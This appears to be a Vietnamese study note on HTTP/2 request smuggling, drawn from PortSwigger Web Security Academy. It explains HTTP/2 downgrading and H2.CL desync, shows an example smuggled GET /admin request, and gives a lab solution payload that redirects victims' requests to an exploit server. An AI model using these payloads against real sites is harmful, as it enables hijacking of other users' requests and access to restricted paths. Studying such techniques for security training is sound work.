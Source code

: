 # Advanced request smuggling

Trong phần này ta sẽ tìm hiểu về smuggling với HTTP/2

# HTTP/2 request smuggling

HTTP/2 lại làm cho dễ xảy ra cuộc tấn công smuggling cho dù nó được phát minh ra để cản lỗ hổng này 

## HTTP/2 message length

Về cơ bản, request smuggling nhằm khai thác sự không thống nhất giữa cách các máy chủ khác nhau diễn giải độ dài của một yêu cầu. `HTTP/2` giới thiệu một cơ chế đơn lẻ và mạnh mẽ để xử lý vấn đề này, từ lâu đã được cho là giúp `HTTP/2` miễn nhiễm với request smuggling.

Mặc dù không thấy điều này trong Burp, các thông điệp HTTP/2 được gửi qua mạng dưới dạng một chuỗi các "khung" riêng biệt. Mỗi khung đều có trường độ dài rõ ràng, cho máy chủ biết chính xác số byte cần đọc vào. Do đó, độ dài của yêu cầu là tổng độ dài các khung của nó.

Lý thuyết cho rằng cơ chế này sẽ không để lại bất kỳ cơ hội nào cho kẻ tấn công để tạo ra sự không rõ ràng cần thiết cho request smuggling, miễn là trang web sử dụng `HTTP/2` từ đầu đến cuối. Tuy nhiên, trong thực tế, điều này thường không đúng do việc downgrand HTTP/2 xuống HTTP/1.

## HTTP/2 downgrading

`Downgrading HTTP/2` là quá trình viết lại các yêu cầu HTTP/2 theo cú pháp HTTP/1 để tạo ra một yêu cầu HTTP/1 tương đương. Các máy chủ web và reverse proxy thường thực hiện điều này để cung cấp hỗ trợ HTTP/2 cho các client trong khi vẫn giao tiếp với các máy chủ back-end chỉ hỗ trợ `HTTP/1`. Việc giảm cấp này là điều kiện tiên quyết cho nhiều cuộc tấn công được đề cập trong phần này.

## H2.CL vulnerabilities
Yêu cầu HTTP/2 không cần phải xác định độ dài rõ ràng trong một header. Khi giảm cấp, điều này khiến các máy chủ front-end thường thêm một header `Content-Length` của HTTP/1, và xác định giá trị của nó dựa trên cơ chế độ dài có sẵn của HTTP/2. Điều thú vị là các yêu cầu HTTP/2 cũng có thể tự bao gồm header `content-length`. Trong trường hợp này, một số máy chủ front-end sẽ chỉ sử dụng lại giá trị này trong yêu cầu HTTP/1 được tạo ra.

Theo đặc tả, bất kỳ header `content-length` nào trong yêu cầu HTTP/2 đều phải khớp với độ dài được tính bằng cơ chế nội bộ, nhưng điều này không phải lúc nào cũng được kiểm tra chặt chẽ trước khi giảm cấp. Kết quả là, có thể tiến hành tấn công smuggling bằng cách tiêm vào một header `content-length` gây hiểu lầm. Mặc dù front-end sẽ sử dụng độ dài ngầm định của HTTP/2 để xác định điểm kết thúc của yêu cầu, nhưng back-end HTTP/1 phải tham chiếu đến header `Content-Length` có nguồn gốc từ header đã tiêm vào, dẫn đến sự không đồng bộ.

Ví dụ: Phía Front-end (HTTP/2)
```http
            :method	        POST
            :path	        /example
            :authority	    vulnerable-website.com
            content-type	application/x-www-form-urlencoded
            content-length	0
GET /admin HTTP/1.1
Host: vulnerable-website.com
Content-Length: 10

x=1
```

Phía Back-end (HTTP/1)
```http
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Content-Length: 10

x=1GET / H
```
Mẹo: Khi thực hiện một số cuộc tấn công smuggling, bạn sẽ muốn các header từ yêu cầu của nạn nhân được nối thêm vào tiền tố đã tiêm vào. Tuy nhiên, trong một số trường hợp, điều này có thể cản trở cuộc tấn công, dẫn đến các lỗi header trùng lặp và các vấn đề tương tự. Trong ví dụ trên, chúng tôi đã giảm thiểu vấn đề này bằng cách thêm một tham số ở cuối và một header `Content-Length` vào tiền tố đã tiêm vào. Bằng cách sử dụng một header `Content-Length` dài hơn một chút so với phần thân, yêu cầu của nạn nhân vẫn sẽ được nối vào tiền tố đã tiêm vào nhưng sẽ bị cắt ngắn trước phần header.

---

## 1. H2.CL request smuggling
https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling

Tắt update content-length, 
Đầu tiên ta gửi:
```http
POST / HTTP/2
Host: 0a43001c03c0c81780393f6f006100c9.web-security-academy.net
Content-Length: 0

SMUGGLED
```
với request thứ 2 ta thấy nó trả về 404 chứng tỏ ta đã điều hướng nó request lỗi.

máy chủ front-end sẽ lấy lại content-length = 0 trong http2 và vì thế nó sẽ thực hiện gửi 2 request


Payload:
```http
POST / HTTP/2
Host: 0a43001c03c0c81780393f6f006100c9.web-security-academy.net
Content-Length: 0

GET /resources HTTP/1.1
Host: exploit-0ad2007b0394c85b80693ee2018f005e.exploit-server.net
Content-Length: 5

x=1
```
Nó sẽ làm chuyển hướng request đến exploit server












